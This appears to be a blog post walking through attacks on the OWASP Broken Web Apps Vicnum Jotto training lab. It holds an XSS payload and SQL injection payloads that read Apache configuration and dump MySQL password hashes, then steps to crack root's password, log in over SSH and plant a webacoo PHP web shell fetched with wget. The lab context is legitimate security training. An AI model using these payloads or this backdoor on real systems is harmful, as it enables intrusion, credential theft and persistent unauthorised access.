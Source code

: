 ```yaml
---
layout: post
title: OWASP Broken Web Apps Vicnum - Jotto
slug: owasp-broken-web-apps-vicnum-jotto
name: OWASP Broken Web Apps Vicnum - Jotto
---
```


I started off just playing the game to see what happens moving through the workflow.  After guessing the word in 43 tries I noticed that the count is being passed from the success page over to the scoreboard, much like its sibling application this ends up being something we can modify in transit.

The second time round I made a wordlist of the second word to guess once I figured out it had an r in it:

{% highlight bash %}
cewl -w wordlist.txt -v -d 0 -m 5 http://www.wordbyletter.com/words_starting_with.php?q=r
{% endhighlight %}

Luckily it did end up starting with an r, that way I didn't have to play the annoying game again just to modify my number of guesses.

After getting to the scoreboard page I noticed that the name get parameter is being injected into an HTML string on the page, try making this the name:

{% highlight javascript %}
<script>alert(1)</script>
{% endhighlight %}

into the URL for the name GET parameter worked.

The name parameter also seems like it might be vulnerable to SQLi

Doing a quick:

{% highlight sql %}
' or 1 = 1 #
{% endhighlight %}

shows query results for all users on the page, so we know its injectable.

Now to get something a little more juicy:
{% highlight sql %}
union all select load_file('/etc/apache2/apache2.conf'),2,3,4#
{% endhighlight %}

This will return the entire apache web config in its entirety.

I suppose just like its sibling lets break in:

{% highlight sql %}
'  union all select user,password,3,4 from mysql.user#
{% endhighlight %}

As in the sibling application this page can be used to get root's password: https://www.hashkiller.co.uk/ which found the root password in question: owaspbwa, this matches the readme when the VM boots up.

Next lets ssh to the VM:

{% highlight  bash %}
ssh root@ip
pw: owaspbwa
{% endhighlight %}

Now for a persisted backdoor, webacoo worked for the last one, why not use it again.

{% highlight bash %}
webacoo -g -o bd.php
{% endhighlight %}

Next fire up SimpleHTTPServer in Parrot and change directory to the web root /var/www on the VM and run:

{% highlight bash %}
wget http://iptoparrot:8000/bd.php
{% endhighlight %}

Then to test things out:

{% highlight bash %}
webacoo -t -u http://ip/bd.php
{% endhighlight %}